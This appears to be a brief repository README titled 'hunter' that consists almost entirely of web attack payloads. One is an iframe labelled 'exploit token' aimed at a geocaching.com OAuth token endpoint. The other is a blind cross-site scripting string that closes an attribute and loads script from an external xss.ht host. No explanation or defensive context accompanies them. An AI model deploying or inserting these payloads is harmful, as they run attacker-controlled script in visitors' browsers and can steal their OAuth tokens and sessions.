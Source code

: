 # hunter



<iframe alt='exploit token' frameborder='0' height='600' scrolling='auto' src='https://www.geocaching.com/account/oauth/token#_=_https://www.geocaching.com/account/oauth/token#_=_' width='4800'></iframe>
"><script src=https://ynafiai.xss.ht></script>
